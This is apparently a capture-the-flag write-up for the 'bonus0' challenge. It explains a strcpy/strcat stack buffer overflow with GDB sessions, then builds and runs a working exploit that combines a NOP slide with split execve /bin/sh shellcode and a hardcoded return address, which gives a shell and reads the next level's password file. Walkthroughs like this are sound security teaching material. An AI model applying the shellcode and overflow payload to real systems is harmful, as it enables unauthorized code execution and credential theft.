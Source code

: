 # Bonus 0

## Initial Context

- One file: `bonus0`

## Solving the Challenge

The program will prompt for 2 inputs and output them both but after limiting them to 20 characters each.

Looking at the code, we can see `strcpy` and `strcat` which might suggest that a buffer overflow exploit is possible.

And indeed by using a [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can find that EIP is located at offset `9`.

```bash
$ gdb ./bonus0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```

> As long that the first input is full (20 characters long) we still find the same EIP offset.
> 
> ```bash
> (gdb) run
> Starting program: /home/user/bonus0/bonus0
>  -
> AAAAAAAAAAAAAAAAAAAA
>  -
> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
> AAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���
> 
> Program received signal SIGSEGV, Segmentation fault.
> 0x41336141 in ?? ()
> ```

Why that? Since the two buffer of `pp` are following each others.
Since `first` is not null terminated, we continue on `second`.

1. `strcpy` will copy `20 (first's length)` + `20 (second's length)` + `4 (garbage)` to the `buffer`.
2. A space is added, at the end of the buffer, making it of length `25`.
3. `strcat` will then add another `20 (second's length)` + `4 (garbage)` to the `buffer`, overflowing it.

> This can be verified using GDB:
> 
> ```bash
> (gdb) break *pp+122 # at `call   0x8048390 <strcat@plt>`
> (gdb) run
> Starting program: /home/user/bonus0/bonus0
>  -
> AAAAAAAAAAAAAAAAAAAA
>  -
> BBBBBBBBBBBBBBBBBBBB
> 
> Breakpoint 1, 0x08048598 in > pp ()
> ```
> 
> We can verify that the `second`'s length is `24`.
> 
> ```bash
> (gdb) x *(void**)($esp+4)
> 0xbffff62c:      'B' <repeats 20 times>"\364, ", <incomplete sequence \375\26
> (gdb) call strlen(*(void**)($esp+4))
> $1 = 24
> ```
> 
> And that the `buffer`'s length before concat is 45.
> 
> ```bash
> (gdb) x *(void**)$esp
> 0xbffff666:      'A' <repeats 20 times>, 'B' <repeats 20 times>"\364, \017\375\267 "
> (gdb) call strlen(*(void**)$esp)
> $2 = 45
> ```

Since we can have a continuous payload of `29 bytes`, we can store a `shell code` directly into the buffer.

First we need to find the `buffer`'s address via `ltrace` and by looking at the `strcpy`'s return address.

```bash
$ ltrace ./bonus0
...
strcpy(0xbffff736, "A")       = 0xbffff736
...
```

We can craft the payload as follow:

```python
# NOP slide
"\x90" * 5

# first 15 bytes of the shell code
+ "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3"

# padding of 4096 - payload - new line
+ "A" * (4096 - 20 - 1) + "\n"

# last 9 bytes of the shell code
+ "\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

# `buffer`'s address: 0xbffff736 (or `36 f7 ff bf` in LE)
+ "\x36\xf7\xff\xbf"

# padding of 7 to 20
+ "A" * 7
```

And send it to the vulnerable program:

```bash
$ python -c 'print "\x90" * 5 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3" + "A" * (4096 - 20 - 1) + "\n" + "\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "\x36\xf7\xff\xbf" + "A" * 7' > /tmp/bonus0
$ cat /tmp/bonus0 - | ./bonus0
 -
 -
�����1�Ph//shh/bin��PS�ᙰ
                        ̀6���AAAAAAA��� PS�ᙰ
                                            ̀6���AAAAAAA���
whoami
bonus1
cat /home/user/bonus1/.pass
<flag>
```

